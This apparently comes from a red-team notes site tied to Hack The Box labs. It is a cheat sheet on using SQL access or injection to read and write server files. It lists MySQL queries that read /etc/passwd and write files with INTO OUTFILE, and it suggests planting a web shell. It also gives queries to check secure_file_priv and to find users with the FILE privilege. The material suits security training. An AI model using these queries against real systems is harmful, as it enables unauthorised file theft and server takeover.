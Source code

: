 # Database Exploitation: File system

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![validation](../../../../../_badges/htb-p/validation.svg)](https://app.hackthebox.com/machines/Validation)

<div class="row row-cols-lg-2"><div>

If we are able to run SQL queries, either from a direct access, or from a [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sqli.md), we may be able to read/write files.

Common usages are:

* 🔑 Read sensitive files <small>(configuration files, /etc/passwd, etc.)</small>
* 🪲 Write a web shell <small>(you need the webserver root path, try to see if it's shown if error messages if any, or try well-known paths)</small>

In the context of a SQLi, you can use [sqlmap](/cybersecurity/red-team/s3.exploitation/tools/sqlmap.md#readwrite-files) to automate this.
</div><div>

To read a file:

```sql!
SELECT LOAD_FILE('/etc/passwd');
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE xxx;
```

To write something to a file <small>(⚠️ query length limit)</small>:

```sql!
SELECT [...] INTO OUTFILE '/path/to/writable/dir/myfile';
SELECT "Hello!" INTO OUTFILE '/tmp/myfile';
SELECT FROM_BASE64("SGVsbG8h") INTO OUTFILE '/tmp/myfile';
```
</div></div>

<hr class="sep-both">

## DBMS Introspection

<div class="row row-cols-lg-2"><div>

#### MySQL secure_file_priv

MySQL uses the `secure_file_priv`. If it's empty, there is no restriction. If `NULL`, read/write are disabled. Otherwise, we are limited to the specified folder. We can check out the current value with:

```sql!
SELECT variable_value FROM information_schema.global_variables
WHERE VARIABLE_NAME='secure_file_priv'
```

MariaDB has this variable set to empty by default. MySQL uses `/var/lib/mysql-files` as the default folder.
</div><div>

#### List Users That Can Manipulation Files

List users with the file permission <small>(Y=YES)</small>

```sql!
SELECT grantee, privilege_type
FROM information_schema.user_privileges
WHERE PRIVILEGE_TYPE = 'FILE'
```
```sql!
SELECT user,File_priv FROM mysql.user
```
</div></div>